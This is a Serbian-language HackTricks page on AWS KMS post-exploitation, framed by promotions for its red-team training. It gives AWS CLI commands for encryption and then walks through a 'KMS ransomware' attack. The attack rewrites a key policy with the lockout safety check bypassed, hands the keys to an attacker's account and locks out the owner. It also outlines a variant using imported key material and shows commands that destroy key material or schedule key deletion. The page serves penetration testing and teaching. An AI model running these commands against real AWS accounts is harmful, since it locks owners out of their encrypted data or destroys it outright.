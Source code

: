 # AWS - KMS Post Exploitation

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## KMS

Za više informacija proverite:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Enkriptovanje/Dekriptovanje informacija

`fileb://` i `file://` su URI sheme koje se koriste u AWS CLI komandama za određivanje puta do lokalnih fajlova:

* `fileb://:` Čita fajl u binarnom režimu, obično se koristi za ne-tekstualne fajlove.
* `file://:` Čita fajl u tekstualnom režimu, obično se koristi za obične tekstualne fajlove, skripte ili JSON koji nemaju posebne zahteve za kodiranje.

{% hint style="success" %}
Imajte na umu da ako želite da dekriptujete neke podatke unutar fajla, fajl mora sadržati binarne podatke, a ne base64 kodirane podatke. (fileb://)
{% endhint %}

* Korišćenje **simetričnog** ključa
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Korišćenje **asimetričnog** ključa:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

Napadač sa privilegovanim pristupom KMS-u može da izmeni KMS politiku ključeva i **dodeli svom nalogu pristup tim ključevima**, uklanjajući pristup koji je dodeljen legitimnom nalogu.

Tada korisnici legitimnog naloga neće moći da pristupe bilo kojim informacijama bilo koje usluge koja je enkriptovana tim ključevima, stvarajući lak ali efikasan ransomware nad nalogom.

{% hint style="warning" %}
Napomena da **AWS upravljani ključevi nisu pogođeni** ovim napadom, samo **Klijentski upravljani ključevi**.

Takođe, napomena o potrebi korišćenja parametra **`--bypass-policy-lockout-safety-check`** (nedostatak ove opcije u web konzoli čini ovaj napad mogućim samo iz CLI-a).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Imajte na umu da ako promenite tu politiku i date pristup samo eksternom nalogu, a zatim iz ovog eksternog naloga pokušate da postavite novu politiku da **ponovo date pristup originalnom nalogu, nećete moći**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Generički KMS Ransomware

#### Globalni KMS Ransomware

Postoji još jedan način da se izvrši globalni KMS Ransomware, koji bi uključivao sledeće korake:

* Kreirajte novi **ključ sa ključnim materijalom** koji je uvezen od strane napadača
* **Ponovo enkriptujte starije podatke** enkriptovane prethodnom verzijom sa novom.
* **Obrišite KMS ključ**
* Sada samo napadač, koji ima originalni ključni materijal, može da dekriptuje enkriptovane podatke

### Uništavanje ključeva
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Napomena da AWS sada **sprečava prethodne radnje da se izvrše iz druge naloge:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
